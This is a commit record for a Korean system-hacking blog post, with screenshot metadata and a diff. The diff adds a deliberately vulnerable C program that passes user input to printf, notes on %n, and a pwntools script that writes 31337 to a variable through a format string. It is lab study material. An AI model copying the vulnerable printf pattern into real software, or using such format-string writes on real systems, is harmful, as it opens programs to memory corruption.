

Before and after one commit to Herrtane/Herrtane.github.io, a Jekyll site: the page built from _posts/SystemHacking/2022-10-06-systemhacking-formatstringbug.markdown, in a window 1280 px wide and 1400 px high, scrolled down 4299 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; before the commit the page ends 4892 px from its top, so only the background shows below that.

Commit message:
Update 2022-10-06-systemhacking-formatstringbug.markdown

````diff
--- a/_posts/SystemHacking/2022-10-06-systemhacking-formatstringbug.markdown
+++ b/_posts/SystemHacking/2022-10-06-systemhacking-formatstringbug.markdown
@@ -185,3 +185,57 @@ p.interactive()
 여기서, sendlineafter로 하면 작동을 안하는데, LLM에게 물어보니 다음과 같이 답변했다. 참고하자.
 
 > sendlineafter가 안 됐던 이유는 타이밍 문제였을 가능성이 높습니다. recvline()으로 주소를 읽고 난 직후 Format:  프롬프트가 이미 수신 버퍼에 도착해 있는데, sendlineafter가 그걸 받기 전에 타임아웃이 났거나 내부 버퍼 처리 순서가 꼬인 것입니다.
+
+### Example Code 3 : 임의 주소 쓰기 (2026.05.12 추가)
+
+이 부분이 계속 헷갈리는 부분이라 집중하길 바란다!
+
+```c
+#include <stdio.h>
+
+int secret;
+
+int main(){
+        char format[0x100];
+
+        printf("Address of `secret`: %p\n", &secret);
+        printf("Format: ");
+        scanf("%[^\n]", format);
+        printf(format);
+
+        printf("Secret: %d", secret);
+
+        return 0;
+}
+```
+
+우선 `%n`의 사용법과 작동 원리를 간단한 예제부터 응용 예제까지 다루면서 익숙해져야한다.
+
+```c
+int count;
+printf("Hello%n", &count);
+// "Hello" = 5글자 출력
+// count = 5
+
+int a;
+printf("AA%n", &a);      // a = 2
+printf("AAAA%n", &a);    // a = 4
+printf("AAAA%1$n", &a);  // a = 4, 1번째 인자에 씀
+```
+
+이를 바탕으로, Secret에 내가 원하는 31337이라는 값을 쓰는 코드를 작성해보자.
+
+```python
+from pwn import *
+
+p = process('./fsb_aaw')
+
+p.recvuntil(b'`secret`: ')
+secret_addr = int(p.recvline()[:-1].decode(),16)
+
+fstring = b'%31337c%8$n'.ljust(16)
+fstring += p64(secret_addr)
+
+p.sendline(fstring)
+p.interactive()
+```
````
